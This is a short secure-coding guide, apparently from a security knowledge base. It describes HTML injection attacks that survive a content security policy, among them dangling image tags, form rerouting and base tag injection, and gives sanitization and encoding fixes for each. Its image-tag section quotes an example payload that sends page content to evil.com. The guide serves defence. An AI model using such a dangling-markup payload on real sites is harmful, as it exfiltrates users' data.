 ## Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

## Solution:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs whenever an attacker can inject code into your application. It is very important to sanitize and or encode user data before you display it on screen as HTML.
2.Image tag injection occurs whenever an attacker injects a broken image tag with a non-terminated parameter like: "img src='http://evil.com?steal.php?value= Every content after value= parameter will now be stolen and send to evil.com by the attacker till the injection finds the next occurrence of a matching single quote.
Again you should sanitize and encode the user input to prevent an image tag from being injected in your application. For whenever a user is permitted to submit an image on your application enforce and verify the application accepts valid non-broken tags only.
3.The "form" tag can't be nested. The top-level occurrence of this element always takes precedence over subsequent appearances. Again you must avoid this type by properly encoding and sanitizing your user-inputs.
4.Whenever an attacker injects a "base" tag into your application it can steal data because the tag specifies the base URL/target to where to process the data to.
The solution to base jumping would be to use absolute paths in your application such as  action='/update_profile.php'
instead of: action='update_profile.php'
5/6 can both also easily be prevented simply be encoding or sanitizing your user-input submitted towards your application.
Always validate your user input on a high level(server-side constraint). Whenever your application expects an integer you should validate and check whether the user submitted input really is what you expected it to be and otherwise, you terminate and log the request.

